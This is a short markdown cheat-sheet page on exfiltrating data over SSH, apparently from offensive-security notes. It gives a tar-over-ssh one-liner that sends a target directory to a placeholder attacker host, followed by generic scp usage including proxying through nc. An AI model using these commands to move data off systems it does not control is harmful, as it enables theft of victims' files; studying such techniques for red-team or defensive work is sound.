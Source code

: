 # Data Exfiltration Over SSH

Either with `SCP` or some ssh client both should be encrypted. If you do not have access to  `SCP`:
```bash
# SSH onto the target machine
tar cf - $exfil_dir/ | ssh $attacker@$listening_domain.com "cd /tmp/; tar xpf -"
```

If you do:
```bash
scp <file> <user>@<host>:<dest>

# To copy a file from a remote server to your local machine:
scp <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```